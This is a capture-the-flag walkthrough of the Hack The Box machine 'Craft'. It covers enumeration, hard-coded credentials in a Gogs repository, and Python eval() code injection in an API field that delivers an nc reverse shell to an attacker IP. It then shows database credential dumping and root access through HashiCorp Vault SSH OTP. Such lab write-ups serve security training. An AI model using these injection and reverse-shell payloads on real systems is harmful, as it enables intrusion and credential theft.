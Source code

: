# [Craft](https://app.hackthebox.com/machines/craft)

```bash
nmap -p-  --min-rate 10000 10.10.10.110 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,443,6022 10.10.10.110 -Pn
```

![alt text](img/image-1.png)


While we browse this ip address, we see that HTTP record resolved into `craft.htb`.
Let's add this into `/etc/hosts` file for resolving purposes.


Let's do `Subdomain Enumeration`.

```bash
wfuzz -u "https://10.10.10.110" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.craft.htb" --hh 3779
```

![alt text](img/image-3.png)


Let's add these records into `/etc/hosts` file, also.



Once I open `api.craft.htb`, I can see `Swagger` Documentation.

![alt text](img/image-2.png)



While we want to authenticate ourselves to `/auth/login` endpoint, we are asked to enter `username` and `password`.



There are two links at the top right that lead to new subdomains: https://api.craft.htb/api/ and https://gogs.craft.htb/


While I open `gogs.craft.htb` which is used for `Code Repository`.

![alt text](img/image-4.png)



While I look at last commits, I can see `hard-coded` credentials.

![alt text](img/image-5.png)


dinesh: 4aUh0A8PbVJxgd


Let's try to authenticate into `API` via this credentials via `curl` request.

```bash
curl -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json"
```

![alt text](img/image-6.png)


We just need this `JWT` token to make requests to other endpoints of `API`.

Again, I enumerate `API` documentation which gets user input which means I can inject something to here.

![alt text](img/image-7.png)

Let's analyze code repository to find anything related to this endpoint.


I find related script and `POST` request method which `eval()` dangerous method is used here.

![alt text](img/image-8.png)


As we see `eval()` method, we can inject some `Python` commands including call `os` library and run system commands which leads to `Code Injection` vulnerability.


So we need to inject malicious command to `abv` parameter which will be used in `eval()` method.

First, we need to get `JWT` token as below and write this output into environment variable.

```bash
export TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | cut -d '"' -f4)
```
![alt text](img/image-9.png)

Now, we can send request to send `Code Injection` by using our `JWT` token.

```bash
curl -X POST "https://api.craft.htb/api/brew/" -H  "accept: application/json" -H  "Content-Type: application/json" -d "{
\"id\": 0,
\"brewer\": \"dr4ks\",
\"name\": \"beer\",
\"style\": \"bad\",
\"abv\": \"__import__('os').system('ping -c 10.10.14.2')\"}" -k -H "X-CRAFT-API-TOKEN: $TOKEN"
```

![alt text](img/image-12.png)


I can see results from `tcpdump -i tun0`.

![alt text](img/image-11.png)


Let's change `Command` injection to `reverse shell` payload.

```bash
curl -X POST "https://api.craft.htb/api/brew/" -H  "accept: application/json" -H  "Content-Type: application/json" -d "{
\"id\": 0,
\"brewer\": \"dr4ks\",
\"name\": \"beer\",
\"style\": \"bad\",
\"abv\": \"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1337 >/tmp/f')\"}" -k -H "X-CRAFT-API-TOKEN: $TOKEN"
```

![alt text](img/image-10.png)

Hola, I got reverse shell from port `1337`.

![alt text](img/image-13.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-16.png)

Most probably that's `container`, anyway, we need to make enumeration to find interesting stuff.


From `/opt/app/craft_api` directory, I find `settings.py` file which contain sensitive credentials.

![alt text](img/image-14.png)


craft: qLGockJ6G2J75O

Then I find `dbtest.py` script on `/opt/app` directory, let's read this.

![alt text](img/image-15.png)


This is just used to get informaiton from `brew` table.

Let's modify this script to get full execution of `mysql` database.
```bash
import sys
sql = sys.argv[1]
result = cursor.fetchall()
```

![alt text](img/image-17.png)


Let's execute this script.

```bash
python dbtest.py  'SELECT user()'
```

![alt text](img/image-18.png)


I find table `user` which contains sensitive credentials.
```bash
python dbtest.py  'SELECT * FROM user;'
```

![alt text](img/image-19.png)


Let's look at grabbed credentials.
```bash
dinesh: 4aUh0A8PbVJxgd
ebachman: llJ77D8QFkLPQB
gilfoyle: ZEU3N8WNM2rh4T
```


I check this credentials in so many places, but it `gilfoyle` creds worked for `Gogs` which is `Code Repository`.


![alt text](img/image-20.png)


I find `private repository` called `craft-infra`, let's access here.

Here, I find private key file (id_rsa).

![alt text](img/image-21.png)


Let's take this and change privileges to login into machine.
```bash
chmod 600 id_rsa
ssh -i id_rsa gilfoyle@craft.htb
```

**Note:** Passphrase is the same with password.

user.txt

![alt text](img/image-22.png)


For `Privilege Escalation`, I just look at processes via `ps aux` command and find `vault`.

![alt text](img/image-23.png)

As you see user of `vault` process is `root` user.


I looked at [Documentation](https://developer.hashicorp.com/vault/docs/commands) of `Vault`.


Let's start enumeration.

```bash
vault token lookup
```

![alt text](img/image-24.png)


```bash
vault secrets list
```

![alt text](img/image-25.png)


I look at roles as below.
```bash
vault read ssh/roles/root_otp
```

![alt text](img/image-26.png)


Let's try to connect via `vault ssh` cmdlet.
```bash
vault ssh -mode=otp -role=root_otp root@127.0.0.1
```

root.txt

![alt text](img/image-27.png)
